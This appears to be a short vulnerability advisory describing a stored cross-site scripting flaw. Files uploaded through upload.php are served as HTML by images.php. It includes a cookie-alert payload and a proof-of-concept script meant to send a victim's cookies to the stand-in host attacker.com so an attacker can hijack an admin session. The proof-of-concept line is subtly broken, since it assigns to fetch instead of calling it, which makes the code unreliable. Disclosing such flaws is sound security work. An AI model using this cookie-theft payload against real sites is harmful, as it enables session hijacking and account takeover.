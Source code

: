 # Description

Stored XSS via Unrestricted File Upload  

- **Type:** Stored Cross-Site Scripting (XSS)  
- **Location:** `upload.php` → `images.php?id=<id>`  
- **Severity:** Low (Scoped to authenticated users)  
- **Impact:** JavaScript execution in authenticated sessions  

This allows an attacker to upload files like:  

```html
<script>alert(document.cookie)</script>
```
and have them rendered by images.php?id=<id>, where the file is served as HTML.  

The only restriction is that the XSS payload is accessible only by authenticated users with a valid JWT or session. This still presents a serious issue if a victim is an admin, a staff user or another privileged role.  


# PoC

Send POST /upload.php with malicious HTML/JS file inside.

``` html
<script> fetch=('http://attacker.com/?cookie='+document.cookie)</script>  
```

After that, if admin decides to go in given link (images.php?id=123) we will get his cookies.  

![upload](../images/file_upload.gif) 

